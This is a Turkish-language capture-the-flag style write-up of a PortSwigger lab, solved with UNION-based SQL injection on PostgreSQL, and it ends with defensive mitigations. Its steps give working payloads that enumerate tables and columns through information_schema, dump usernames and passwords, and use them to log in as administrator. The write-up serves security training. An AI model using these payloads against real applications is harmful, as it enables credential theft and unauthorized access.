










# SQL Injection — Veritabanı İçeriğini Listeleme (non-Oracle / PostgreSQL)

**Lab:** SQL injection attack, listing the database contents on non-Oracle databases
**Seviye:** Practitioner
**Kategori:** SQL Injection (UNION / information_schema)
**Araçlar:** Burp Suite (Proxy + Repeater), tarayıcı
**Lab linki:** https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

---

## Zafiyetin Özeti

Ürün kategorisi filtresi SQL enjeksiyonuna açık ve sorgu sonuçları sayfada gösteriliyor. Önceki lab'lerden farkı: bu kez tablo adını ve sütun adlarını **bilmiyoruz**. Uygulamanın bir giriş fonksiyonu var ve veritabanında kullanıcı adı/parola tutan bir tablo var; önce bu tablonun ve sütunlarının adını keşfedip sonra içeriğini çekmemiz gerekiyor.

Bunun için **`information_schema`** kullanılır: Oracle dışındaki veritabanlarında (PostgreSQL, MySQL, MSSQL) veritabanının meta verisini — tüm tabloları ve sütunları — tutan standart bir şemadır. Bu lab'deki tablo adlarının `pg_` ön ekli olması (ör. `pg_available_extension_versions`) hedefin **PostgreSQL** olduğunu gösterir.

## Lab Açıklaması



## Çözüm Adımları

### 1. Normal istek

İsteği Burp Repeater'a gönderip normal `GET /filter?category=Gifts` yanıtını inceliyoruz.



### 2. Sütun sayısını belirlemek

`information_schema` üzerinden test yaparak sütun sayısını buluyoruz:

```
Gifts' UNION SELECT NULL,NULL FROM information_schema.tables--
```

Yanıt `200 OK`; sorgu **2 sütun** döndürüyor.



### 3. Tabloları listelemek

Veritabanındaki tabloların adlarını çekiyoruz. Tablo adları `information_schema` içindeki `table_name` sütununda bulunur:

```
Gifts' UNION SELECT table_name,NULL FROM information_schema.columns--
```

Sonuçta tablo adları listeleniyor (PostgreSQL'e ait `pg_` ön ekli sistem tabloları da görünüyor).



Listede kullanıcı bilgilerini tutan tabloyu buluyoruz: **`users_wunxkq`**. (Tablo adı her lab oturumunda rastgele bir son ek alır.)



### 4. Sütun sayısını/tipini doğrulamak

Bulduğumuz tablo üzerinde iki metin sütunu olduğunu doğruluyoruz:

```
Gifts' UNION SELECT 'a','b' FROM users_wunxkq--
```

Yanıt `200 OK`; iki sütun da metin verisiyle uyumlu.



### 5. Sütun adlarını listelemek

`users_wunxkq` tablosunun sütun adlarını, `information_schema.columns`'u ilgili tabloya göre filtreleyerek çekiyoruz:

```
Gifts' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_wunxkq'--
```

Böylece kullanıcı adı ve parola sütunlarının adlarını öğreniyoruz: **`username_xylgoh`** ve **`password_woqsrt`**. (Sütun adları da oturuma özgü rastgele son ek taşır.)



### 6. Veriyi çekmek

Tablo ve sütun adlarını bildiğimize göre, kullanıcı adı ve parolaları çekiyoruz:

```
Gifts' UNION SELECT username_xylgoh,password_woqsrt FROM users_wunxkq--
```



Tarayıcıda çalıştırdığımızda kullanıcı adı ve parolalar listeleniyor:



### 7. administrator olarak giriş yapmak

Çekilen `administrator` kullanıcı adı ve parolasıyla giriş formundan oturum açıyoruz; lab çözülmüş olarak işaretleniyor.



## Neden `information_schema`?

Önceki lab'lerde tablo ve sütun adları bize verilmişti. Gerçek saldırılarda bunlar bilinmez; bu bilgi veritabanının **meta verisinden** öğrenilir. Oracle dışındaki veritabanlarında bu meta veri `information_schema` şeması altında durur:

- `information_schema.tables` → tüm tabloların adları (`table_name` sütunu).
- `information_schema.columns` → tüm sütunların adları (`column_name`), hangi tabloya ait olduğu (`table_name`) bilgisiyle. `WHERE table_name='...'` ile belirli bir tablonun sütunlarına filtre uygulanır.

(Oracle'da aynı iş `all_tables` ve `all_tab_columns` görünümleriyle yapılır; bu yüzden lab adı "non-Oracle" diyor.)

## Önlem

- **Parametreli sorgular (prepared statements):** Kullanıcı girdisi sorguya birleştirilmemeli; böylece `UNION SELECT ... FROM information_schema...` enjekte edilemez.
- **Girdi doğrulama (allow-list):** `category` yalnızca bilinen değerlere karşı doğrulanmalı.
- **Parolaların güvenli saklanması:** Parolalar güçlü bir hash algoritmasıyla (ör. bcrypt) saklanmalı; böylece tablo içeriği sızsa bile parolalar doğrudan kullanılamaz.
- **En az yetki prensibi:** Uygulamanın veritabanı kullanıcısı `information_schema` ve hassas tablolara gereksiz erişime sahip olmamalı.
